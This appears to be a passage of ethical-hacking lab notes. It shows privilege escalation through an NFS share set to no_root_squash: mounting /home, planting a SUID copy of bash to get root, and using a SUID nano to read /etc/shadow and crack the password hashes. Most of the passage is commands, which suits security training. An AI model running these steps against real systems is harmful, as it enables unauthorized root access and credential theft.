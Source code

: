 	type /home *(rw,no_root_squash) -> save
Note: **/home *(rw,no_root_squash)** entry shows that **/home** directory is shared and allows the root user on the client to access files and perform **read/write** operations. ***** sign denotes connection from any host machine.
Re-start nfs

	sudo /etc/init.d/nfs-kernel-server restart
	
	[parrot]
	nmap -sV 10.10.1.9 -> We can see that the port 2049 is open and nfs service is running on it.
	sudo apt-get install nfs-common
	showmount -e 10.10.1.9 [We should see that the home directory is mountable.]

If you receive **clnt_create: RPC: Program not registered** error, switch to **Ubuntu** machine:
Restart ubunutu
restart nfs service

	[parrot]
	showmount -e 10.10.1.9 
	should see home directory is mountable.
	mkdir /tmp/nfs
	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
	cd /tmp/nfs
	sudo cp /bin/bash .
	sudo chmod +s bash
	ls -la bash
	sudo df -h -> Shows amount of free disk available
Try to login to target machine

	ssh -i ubuntu 10.10.1.9
	enter pwd
	cd /home
	ls
	./bash -p 
	id      -> get id's of the user
	whoami  -> got root privilages on the target m/c

Install nano editor in target machine so that we can exploit root access

	cp /bin/nano .
	chmod 4777 nano
	ls -la nano
	cd /home
	./nano -p /etc/shadow  -> To open the shadow file from where we can copy the hash of any user
	copy any hash from the file and crack it using john the ripper or hashcat tools, to get the password of desired users.
	ctr+x -> exit
	cat /etc/crontab
	ps -ef
	find /name "**.txt" -ls 2> /dev/null    [view all the .txt files on the system]
	route -n  -> host/network names in numeric form.
	find / -perm -4000 -ls 2> /dev/null [to view the SUID executable binaries.]
--------------------------------
- **Task 5 : Escalate privileges by bypassing UAC and exploiting - Keys**
  Shift key for 5 times. Sticky keys also can be used to obtain unauthenticated, privileged access to the machine.
